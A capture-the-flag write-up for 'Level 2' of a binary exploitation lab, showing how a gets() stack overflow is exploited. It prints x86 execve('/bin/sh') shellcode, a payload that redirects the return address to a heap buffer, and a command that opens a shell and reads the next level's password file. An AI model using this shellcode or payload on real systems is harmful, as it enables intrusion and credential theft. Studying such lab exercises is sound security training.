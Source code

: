 # Level 2

## Initial Context

- One file: `level2`

## Solving the Challenge

Running the file without any argument block on an input.
The program act like `cat`.

```bash
$ echo | ./level2

$ echo a | ./level2
a
$ echo hello | ./level2
hello
```

But a lot of characters seems to break it, looks like a `gets` exploit.

```bash
$ python -c 'print "A" * 128' | ./level2
Segmentation fault (core dumped)
```

By looking at the code, we can see that there are checks to avoid overwriting the return address to an address on the stack:

```c
void *return_address = __builtin_return_address(0);
if (return_address & 0xb0000000) == 0xb0000000) {
    _exit(1);
}
```

Running it with `ltrace` show a memory allocation (through `strdup`) at the end that always allocate to the same address.

```bash
$ echo A | ltrace ./level2
...
strdup("A")                                                         = 0x0804a008
...
$ echo A | ltrace ./level2
...
strdup("A")                                                         = 0x0804a008
...
```

Let's redirect the stack to the allocated memory of which we will put this [shell code](https://www.exploit-db.com/exploits/13357#:~:text=%22%5Cx31%5Cxc0%5Cx50%5Cx68//sh%5Cx68/bin%5Cx89%5Cxe3%5Cx50%5Cx53%5Cx89%5Cxe1%5Cx99%5Cxb0%5Cx0b%5Cxcd%5Cx80%22%3B).

The program reserve `80 bytes` for local variables before having the return address.

Since the shell code is `24 bytes` long, we need to add `56 bytes` as padding and then the new return address which is `0x0804a008`. (or `08 a0 04 08` in LE)

Here is our payload:

```python
"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
+ "a" * 56
+ "\x08\xa0\x04\x08"'
```

Let's save it in a file and send it to the vulnerable program:

```bash
$ python -c 'print "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "a" * 56 + "\x08\xa0\x04\x08"' > /tmp/exploit2
$ cat /tmp/exploit2 - | ./level2
whoami
level3
cat /home/user/level3/.pass
<flag>
```

## Inspirations

- https://0xrick.github.io/binary-exploitation/bof5/
